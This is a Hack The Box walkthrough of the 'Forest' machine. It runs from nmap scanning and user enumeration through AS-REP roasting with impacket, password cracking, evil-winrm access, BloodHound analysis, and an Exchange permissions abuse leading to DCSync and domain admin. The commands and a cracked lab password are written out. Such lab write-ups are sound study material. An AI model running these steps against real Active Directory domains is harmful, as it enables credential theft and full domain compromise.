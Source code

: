 ```yaml
---
layout: post
title:  htb-forest
category: walkthrough
date:   2020-08-05 05:00:00
---
```


# ![forest](/assets/img/forest/forest.png)  
forest is a easy machine made by [egre55](https://www.hackthebox.eu/home/users/profile/1190) & [mrb3n](https://www.hackthebox.eu/home/users/profile/2984)  

# ENUM  
### nmap   
>nmap -sC -Pn -sV -T4 10.10.10.161  
>Starting Nmap 7.70 ( https://nmap.org ) at 2020-08-05 07:30 -03  
>Nmap scan report for 10.10.10.161  
>Host is up (0.23s latency).  
>Not shown: 989 closed ports  
>PORT     STATE SERVICE      VERSION  
>53/tcp   open  domain?  
>| fingerprint-strings:   
>|   DNSVersionBindReqTCP:   
>|     version  
>|_    bind  
>88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2020-08-05 10:41:15Z)  
>135/tcp  open  msrpc        Microsoft Windows RPC  
>139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn  
>389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)  
>445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)  
>464/tcp  open  kpasswd5?  
>593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0  
>636/tcp  open  tcpwrapped  
>3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)  
>3269/tcp open  tcpwrapped  
>1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :  
>SF-Port53-TCP:V=7.70%I=7%D=8/5%Time=5F2A8A51%P=x86\_64-pc-linux-gnu%r(DNSVe  
>SF:rsionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\x  
>SF:04bind\0\0\x10\0\x03");  
>Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows  

>Host script results:  
>|_clock-skew: mean: 2h30m39s, deviation: 4h02m31s, median: 10m37s  
>| smb-os-discovery:   
>|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)  
>|   Computer name: FOREST  
>|   NetBIOS computer name: FOREST\x00  
>|   Domain name: htb.local  
>|   Forest name: htb.local  
>|   FQDN: FOREST.htb.local  
>|_  System time: 2020-08-05T03:43:35-07:00  
>| smb-security-mode:   
>|   account\_used: guest  
>|   authentication\_level: user  
>|   challenge\_response: supported  
>|_  message_signing: required  
>| smb2-security-mode:   
>|   2.02:   
>|_    Message signing enabled and required  
>| smb2-time:  
>|   date: 2020-08-05 07:43:36  
>|_  start\_date: 2020-08-05 06:33:34  

>Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
>Nmap done: 1 IP address (1 host up) scanned in 277.86 seconds  

Nmap gives me the domain htb.local  
Now I need usernames to try use [impacket](https://github.com/ifconfig-me/impacket)  

### enum4linux  
>[enum4linux](https://github.com/CiscoCXSecurity/enum4linux) 10.10.10.16  
enum4linux shows a list of users  
![user](/assets/img/forest/forest1.png)  

# exploit  

Now I can use impacket's GetNPUser.py  
### impacket  
>./GetNPUsers.py htb.local/ -usersfile users.txt -dc-ip 10.10.10.161 -no-pass  
Impacket found the hash of svc-alfresco user  
![hash](/assets/img/forest/forest15.png)  
John will help me to crack it  
>john -w=/usr/share/wordlists/rockyou.txt hash.as  
![pass](/assets/img/forest/forest3.png)  

[evil-winrm](https://github.com/Hackplayers/evil-winrm) to acess the machine  
>./evil-winrm.rb -i 10.10.10.161 -p s3rvice -u svc-alfresco  
![shell](/assets/img/forest/forest4.png)    
# PRIV ESC  
### bloodhound  
The hound  
>./bloodhound.py -d htb.local -ns 10.10.10.161 -u svc-alfresco -p s3rvice -c all  
![bloodHound](/assets/img/forest/forest5.png)  
Just zip all the .json file and send to bloodhound  
svc-alfresco is member of[Account Operators](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/dn579255(v=ws.11))  
![group](/assets/img/forest/forest6.png)  

![exchange1](/assets/img/forest/forest7.png) 
And exchange windows permissons group has WriteDacl 
![exchange2](/assets/img/forest/forest8.png)  
![writDacl](/assets/img/forest/forest9.png)  

If I add a user to Exchange Windows Permissions group I'll be able to do a DCSync attack  
### impacket  
>net group "Exchange Windows Permissions" svc-alfresco /add  
![netGroup](/assets/img/forest/forest10.png)  
to add svc-alfresco in the group  
and impacket's ntlmrelayx.py  
>ntlmrelayx.py -t ldap://10.10.10.161 --escalate-user svc-alfresco  
Logged as svc-alfresco in localhost  
![localhost](/assets/img/forest/forest11.png)  
and.. 
![ntlmrelayx](/assets/img/forest/forest12.png)  
Ready for secretsdump  
![secretsDump](/assets/img/forest/forest13.png)  
Evil again as admin  
![evilAdmin](/assets/img/forest/forest14.png)  
